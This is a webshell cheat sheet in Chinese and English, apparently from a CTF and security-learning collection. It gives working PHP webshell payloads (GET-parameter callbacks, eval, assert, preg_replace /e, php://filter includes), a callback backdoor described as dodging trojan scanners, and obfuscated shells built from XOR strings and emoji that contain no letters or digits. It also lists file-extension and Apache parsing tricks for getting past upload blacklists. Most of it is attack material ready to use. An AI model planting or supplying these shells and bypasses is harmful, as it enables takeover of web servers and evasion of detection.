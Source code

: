 ```php
$_GET[1](file,chracter,8);&1=file_put_contents .....
include$_GET[0];&0=php://filter/read=convert.base64-decode/resource=file


// PHP代碼執行
<?php eval('echo `ls`;');    ?>   // eval裡的PHP代碼必須加;
<?php assert('phpinfo();');   ?> // assert裡的PHP代碼可以不加;

<?php preg_replace("/\[(.*)]/e",'\\1',$_GET['str']);  ?> // ？str=[phpinfo()]
// 必須有匹配才會執行
// PHP 5.5起，會產生 E_DEPRECATED 錯誤
// PHP 7.0.0後，必須使用 preg_replace_callback() 代替


// 思路：延伸數組＋回調函數 php 5.4以後的特性
// 回調後門 多可以避免木馬查殺  
// 參考下方reference
?1[]=blah&1[]=system();&2=assert     
param=usort(...$_GET);
```
長度限制思路：  
* 用檔名拼湊成命令,再一次ls進一個shell script [detail](https://shinmao.github.io/2018/02/20/A-tiny-shell/)

[system v.s. exec v.s. shell_exec](https://blog.longwin.com.tw/2013/06/php-system-exec-shell_exec-diff-2013/)  
**exec()和shell_exec()我們都會搭個echo**  
[這是一篇很屌的php lib exp分析](https://stackoverflow.com/questions/3115559/exploitable-php-functions)  

```php
// 最簡單的是用.串接字元
$😭 = $😙. $😀. $🤗. $🤗. $🤩. $😆. $🙂. $🤔;

// XOR
$😊 = "||||%-" ^ "/%/(``";
$😊 ("`|" ^ ",/");
```
在VXCTF2018中，使用了這個無字母，無數字，無底線的shell，內容為`<?=SYSTEM(LS);`。  
```php
<?=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]); // $_GET[_]($_GET[__]);
```  
在`Meepwn Quals 2018`中，使用了這個無文字shell，如果礙於底線，也可以換成表情符號...
[VXCTF2018](https://github.com/shinmao/CTF-writeups/tree/master/vxcon2018)

# Bypass blacklist extension  
[服务器针对文件的解析漏洞汇总](https://mp.weixin.qq.com/s/f0y_AjRtc4NjEqeJe6cPhw)  
In addition to `.php`，with regex in conf:  
* `.php3`  
* `.php4`  
* `.php5`  
* `.php7`  
* `.pht`  
* `.phtml`  
can also be parsed as php file  
* `.php.xxx`  
In old version  
apache2 parse from the right side to left side, until it recognize the extension  
* `.php/.`
What's worth mention: this trick cannot be used to overwrite old file  
php would recursively remove the part of `/.`.  
[Apache2 php5 conf](https://github.com/shinmao/Web-Security-Learning/blob/master/Webshell/apache2_php5.conf)  
* `move_uploaded_file()`  
With use of lstat() in this function, we can bypass the above overwrite limitation on `/.`  